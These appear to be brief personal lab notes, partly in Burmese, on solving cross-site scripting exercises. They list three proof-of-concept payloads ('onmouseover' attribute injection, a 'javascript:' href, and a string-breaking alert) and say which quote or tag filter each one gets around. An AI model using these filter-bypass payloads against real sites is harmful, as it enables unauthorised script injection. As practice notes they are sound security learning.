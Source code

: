 
**** input box tway myar yin burp ko use

"onmouseover="alert(1)    => i use this payload cuz this site protect with ''  => everything i text is protect by ''

***
*** `javascript:alert(1)`         =>  my input value is at href tag  " "

![[Pasted image 20230109133126.png]]


-------------

`'-alert(1)-'`    => banned <script></script>

![[Pasted image 20230109141412.png]]

Banned <> character

![[Pasted image 20230109141533.png]]


--------------------------


